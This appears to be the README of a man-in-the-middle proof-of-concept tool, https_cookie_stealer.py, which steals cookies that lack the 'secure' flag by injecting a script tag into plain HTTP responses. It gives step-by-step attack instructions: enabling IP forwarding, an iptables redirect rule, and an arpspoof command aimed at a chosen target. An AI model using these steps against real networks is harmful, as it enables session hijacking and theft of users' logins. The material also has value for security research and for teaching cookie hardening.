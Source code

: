 https_cookie_stealer.py is a MITM PoC that allows stealing of cookies that are not
secured with the "secure" attribute, even if the target server can be reached
only via https.

This is done by injecting a small piece of HTML code into every clear text http
response for the client which forces to load a JavaScript code from the (not existing)
http service of the target server.

Example:
<script language="javascript" type="text/javascript" src="http://xxxx"></script>

It then implements a basic http service to retrieve the cookie values.

https_cookie_stealer.py is based on the MITMProxy (http://mitmproxy.org/) library libmproxy.

Running:
https_cookie_stealer.py can be run from the source base without installation.  
Just run 'python https_cookie_stealer.py' as a non-root user to get the
command-line options.

The four steps to getting this working (assuming you're running Linux)
are:

1) Flip your machine into forwarding mode (as root):
echo "1" > /proc/sys/net/ipv4/ip_forward

2) Setup iptables to intercept HTTP requests (as root):
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>

3) Run https_cookie_stealer.py with the command-line options you'd like (see above).

4) Run arpspoof to redirect traffic to your machine (as root):
arpspoof -i <yourNetworkdDevice> -t <yourTarget> <theRoutersIpAddress>

